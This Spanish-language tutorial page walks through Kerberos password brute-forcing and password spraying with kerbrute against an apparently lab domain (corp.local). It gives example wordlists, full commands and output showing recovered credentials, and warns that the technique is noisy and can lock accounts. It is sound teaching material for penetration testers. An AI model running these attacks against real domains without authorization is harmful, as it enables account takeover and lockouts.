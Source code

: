 ```yaml
---
icon: key-skeleton-left-right
---
```


# Fuerza bruta con Kerberos

En esta tecnica lo que vamos a ver es a como identificar la contraseña de un usuario que hayamos encontrado, para realizarle fuerza bruta y saber su contraseña.

Hay que decir que esta tecnica es muy intrusiva y que puede ser detectada por herramientas de seguridad, tambien hay que tener cuidado ya que si algun usuario de los que estamos probando fuerza bruta tiene un limite configurado a nivel de dominio de intentos de contraseñas podemos bloquear a dicho usuario, por lo que hay que tener cuidado.

Para realizar esto haremos lo siguiente:

> passwords.txt

```
Passw0rd
Passw0rd1
Passw0rd2
Passw0rd3
Passw0rd4
Passw0rd5
```

Una vez que hayamos creado un diccionario de contraseñas o lo hayamos extraido de algun sitio en concreto, haremos lo siguiente:

```shell
kerbrute bruteuser -d corp.local --dc 192.168.5.5 passwords.txt empleado1
```

Info:

```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/14/25 - Ronnie Flathers @ropnop

2025/01/14 04:50:52 >  Using KDC(s):
2025/01/14 04:50:52 >   192.168.5.5:88

2025/01/14 04:50:52 >  [+] VALID LOGIN:  empleado1@corp.local:Passw0rd2
2025/01/14 04:50:52 >  Done! Tested 6 logins (1 successes) in 0.183 seconds
```

Vemos que nos coincidio con una contraseña de la lista que seria `Passw0rd2`.

A nivel de red haria lo siguiente, la herramienta envia paquetes con el nombre de usuario, el timestamp y la contraseña de forma cifrada, para ver que respuestas le da `kerberos` si le da un `225` es que esta fallando por que no es la contraseña correcta, pero si por ejemplo en vez de recibir un error, recibe un `AS-REP` que seria un `Replay` de que le contesta significa que la autenticacion fue exitosa, por lo que sabremos que sera esa la contraseña.

Tambien se puede probar con el siguiente formato de contarseñas:

> user\_pass.txt

```
empleado1:passw0rd
empleado2:Passw0rd3
empleado4:Passw0rd4
```

La lista tiene que ser separada con `:` de forma que sea algo asi `username:password` y ejecutar lo siguiente:

```shell
kerbrute bruteforce -d corp.local --dc 192.168.5.5 user_pass.txt
```

Info:

```__
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/14/25 - Ronnie Flathers @ropnop

2025/01/14 05:00:44 >  Using KDC(s):
2025/01/14 05:00:44 >   192.168.5.5:88

2025/01/14 05:00:44 >  [+] VALID LOGIN:  empleado2@corp.local:Passw0rd3
2025/01/14 05:00:44 >  Done! Tested 3 logins (1 successes) in 0.009 seconds
```

Y vemos que coincidio con unas credenciales.

Ahora si queremos probar hacer un `PasswordSpry` osea probar varios nombres de usuario de dominio, frente a una unica contraseña, podremos hacerlo de la siguiente forma:

Utilizaremos el `users.txt` que creamos anteriormente y pondremos lo siguiente:

```shell
kerbrute passwordspray -d corp.local --dc 192.168.5.5 users.txt Passw0rd2
```

Info:

```
    __             __               __
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/14/25 - Ronnie Flathers @ropnop

2025/01/14 05:03:57 >  Using KDC(s):
2025/01/14 05:03:57 >   192.168.5.5:88

2025/01/14 05:03:57 >  [+] VALID LOGIN:  empleado1@corp.local:Passw0rd2
2025/01/14 05:03:57 >  Done! Tested 7 logins (1 successes) in 0.014 seconds
```

Y vemos que nos saca unas credenciales.
